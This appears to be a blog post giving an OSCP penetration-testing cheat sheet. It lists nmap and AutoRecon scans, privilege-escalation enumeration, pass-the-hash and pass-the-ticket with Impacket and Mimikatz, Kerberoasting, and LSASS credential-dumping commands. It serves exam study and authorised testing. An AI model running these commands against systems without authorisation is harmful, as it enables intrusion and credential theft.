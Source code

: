 +++
title = 'OSCP Cheat Sheet Overview'
date = 2024-09-03T17:07:38-07:00
+++

## Introduction

The Offensive Security Certified Professional (OSCP) certification is a benchmark in the field of penetration testing. This guide is designed to be a quick reference, but the journey to OSCP mastery involves a comprehensive commitment beyond what's covered here.

## Network Scanning

### Host Discovery with Nmap

```bash
# Default probe options, show only online hosts
nmap $RHOST/24 -vv -n -sn -T4

# Extra probes (need root)
nmap $RHOST/24 -vv -n -sn -T4 -PE -PP -PS21,22,23,25,80,113,443,31339 -PA80,113,443,10042 --source-port 53
```

### Port Scanning

```sh
# Full TCP scan with OS detection and service/version detection
sudo nmap $RHOST -vv --reason --open -T4 -Pn -p- -A --version-all --osscan-guess -oN full_tcp_nmap.txt

# Quick scan of the top 20 ports
sudo nmap $RHOST -vv --reason --open -T4 -Pn --top-ports 20

# Adjust scan speed
sudo nmap -vv --reason -Pn --min-rate=1000 -p- $IP
```

### Automated Scanning with AutoRecon

```sh
# Run AutoRecon with common extensions and target timeout
sudo $(which autorecon) -v -o ./ -t targets.txt --dirbuster.ext "/,txt,html,php,asp,aspx,jsp" --target-timeout 20
```

## Attack Vectors 🎯

### Unusual Ports and Services

- Check for Non-default Software: Identify services running on non-standard ports and check for public exploits.
- Old Versions: Even if the software version is new, exploits for older versions may still work. Use Searchsploit or Windows Exploit Suggester.

### Usernames & Passwords

- Default Credentials: Check for default passwords.
- Password Reuse: Look for reused or weak passwords.
- Web Login Forms: Attempt basic credentials like admin:admin or root:(no password).

### Web Application Attacks

- Admin Panels: Weak passwords, code execution via cron jobs, or public exploits.
- SQL Injection (SQLi): Test for SQL injection vulnerabilities.
- File Uploads: Test for unrestricted file uploads leading to remote code execution.

## Privilege Escalation

### Linux Privilege Escalation

```sh
# System enumeration
file /bin/bash
cat /etc/*-release
uname -a
hostname

# Check for other users
grep -vE "nologin|false" /etc/passwd

# Writable directories
find / -writable -type d 2>/dev/null

# Cron jobs
ls -lah /etc/cron*
cat /etc/crontab
```

### Windows Privilege Escalation

```sh
# User and group information
whoami /all
net user
net group "Domain Admins" /domain
hostname

# System and network information
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
ipconfig /all
route print
```

### Automated Enumeration Tools

- LinPEAS: ./linpeas.sh -q | tee linpeas.ansi
- WinPEAS: winpeas.exe
- PowerUp: powershell -ep bypass -c ". .\PowerUp.ps1; Invoke-AllChecks"

## Lateral Movement

### Pass the Hash

````sh
# Using Impacket's psexec
impacket-psexec -debug 'domain/user@target_ip' -hashes :ntlm_hash

# RDP with Pass the Hash
xfreerdp +clipboard /log-level:DEBUG /d:domain /u:user /v:target_ip /pth:ntlm_hash

### Pass the Ticket

```sh
# Using Mimikatz
sekurlsa::pth /user:user /domain:domain.com /ntlm:ntlm_hash /run:PowerShell.exe

# List Kerberos tickets
klist

# Impacket - use Kerberos ticket for remote command execution
impacket-psexec -k -no-pass domain/user@target_ip -dc-ip domain_controller_ip
````

## Post-Exploitation

### Manual Enumeration

- User Accounts: net user /domain
- Domain Admins: net group "Domain Admins" /domain
- File System Search: dir c:\users /s flag.txt

### Kerberoasting

```sh
# Using Mimikatz
kerberos::ask
kerberos::list /export

# Crack with Hashcat
hashcat -d 1 -m 13100 --force hash.txt /usr/share/wordlists/rockyou.txt
```

### Dumping Creds

```sh
# Dump LSASS process
cme smb target_ip --local-auth -H ntlm_hash -u administrator -M lsassy --sam

# Extract hashes from a dump
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"
```

## Tools and Resources ⚙️

### Essential Tools

- AutoRecon: Automated network reconnaissance.
- LinPEAS/WinPEAS: Privilege escalation scripts.
- Impacket: Collection of Python scripts for pentesting.
- BloodHound: Active Directory enumeration.

### Resources 📚

- PayloadsAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings
- HackTricks: https://book.hacktricks.xyz
- Windows Exploit Suggester: https://github.com/AonCyberLabs/Windows-Exploit-Suggester
